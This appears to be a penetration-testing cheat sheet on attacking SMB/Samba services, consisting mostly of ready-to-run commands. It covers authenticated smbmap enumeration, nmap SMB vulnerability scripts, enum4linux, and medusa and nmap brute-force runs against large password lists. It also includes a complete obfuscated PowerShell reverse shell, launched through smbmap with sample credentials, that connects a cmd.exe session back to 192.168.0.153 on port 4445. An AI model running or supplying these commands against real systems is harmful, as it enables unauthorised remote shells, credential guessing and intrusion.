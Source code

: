 * With authentication

```
smbmap -u svc-admin -p management2005 -H 10.10.248.93
```

* Check for Vulnerabilities

```
nmap --script smb-vuln* -p 139,445 $ip
```

* Overall Scan

```
enum4linux -a $ip
```

* Get a shell with smbmap (windows)

```
smbmap -u jsmith -p 'R33nisP!nckle' -d ABC -h 192.168.2.50 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.153""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' 
```

* Brute Force SMB

```
medusa -h $ip -u userhere -P /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -M smbnt
nmap -p445 --script smb-brute --script-args userdb=userfilehere,passdb=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt $ip  -vvvv
```

### smbmap

* smbmap is one of the best ways to enumerate samba. smbmap allows pen-testers to run commands(given proper permissions), download and upload files, and overall is just incredibly useful for smb enumeration.

```
smbmap -u "admin" -p "password" -H 10.10.10.10 -x "ipconfig"
```

* `-s` -> specify the share to enumerate
* `-d` -> specify the domain to enumerate
* `--download` -> downloads a file
* `--upload` -> uploads a file
